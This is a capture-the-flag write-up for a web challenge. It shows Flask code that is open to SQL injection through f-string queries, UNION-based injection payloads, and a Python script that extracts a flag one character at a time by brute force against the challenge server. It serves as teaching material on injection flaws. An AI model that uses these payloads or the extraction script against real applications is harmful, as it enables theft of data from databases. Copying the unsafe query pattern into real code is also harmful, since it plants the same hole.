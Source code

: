 ## 100 Questions

[dist.zip](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/100-questions/dist.zip)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/100-questions/chall.png)

> This challenge shows a question with a text box to fill in the answer to the question. It reflects `Correct!` when answered correctly

```python
@app.route("/", methods=["GET"])
def index():
    qn_id, ans= request.args.get("qn_id", default="1"), request.args.get("ans", default="")

    # id check, i don't want anyone to pollute the inputs >:(
    if not (qn_id and qn_id.isdigit() and int(qn_id) >= 1 and int(qn_id) <= 100):
        # invalid!!!!!
        qn_id = 1

    # get question
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]

    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False

    return render_template("index.html", qn_id=qn_id, qn=qn, ans=ans, correct=correct)
```

> From the code, it is noted that parameterized queries were not used. As such, the parameters `qn_id` and `ans` are vulnerable to SQL injections. We can confirm this by testing it on the site

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/100-questions/sqlinjection.png)

> In the files provided in the challenge, we also have access to a database which tells us the name of the table as well as the columns. Also, `ID 42` is where the `FLAG` is.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/100-questions/database.png)

> Since we already have the name of the table and columns, we do not need to do blind SQL injection to get number of columns using commands such as:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

> We can go straight to craft our payload as follows:

```
' UNION SELECT ID,Question,Answer from QNA where ID='42' and Question='Flag' and Answer like 'grey%'--
```

> Here, we use the `like` operator to guess the characters, since we are only given either `Correct!` or `No input / wrong!!!! Try harder` for our SQL statement. We use "grey" as a starting point since that is the flag format we are given, so we are sure that the flag starts with `grey`

> Note that if the next character we test is wrong, we will be given a failure message and that is an indicator for us to try a different character until we eventually get the flag

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/100-questions/mismatch.png)

> We can craft our exploit code, using BeautifulSoup to get the indicator message for us to do the checking

```python
import requests
import string
from bs4 import BeautifulSoup

domain = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_}{ '

check = "Correct!"
url = 'http://34.126.139.50:10512/?qn_id=1&ans='
inject_1 = "' UNION SELECT ID,Question,Answer from QNA where ID='42' and Question='Flag' and Answer like '"
inject_2 = "grey"
inject_3 = "%'--"

while True:
    for char in domain:
        inject_2+=char

        response = requests.get(url+inject_1+inject_2+inject_3)

        soup = BeautifulSoup(response.text, 'html.parser')
        last_paragraph = soup.find_all('p')[-1]
        value = last_paragraph.text.strip()
        if value==check:
            print(inject_2)
            break
        else:
            inject_2 = inject_2[:-1]
```

> We get grey{1_c4n7_533}. Note that `like` is case insensitive, so try capitalizing c and/or n to eventually get the flag

`grey{1_C4n7_533}`
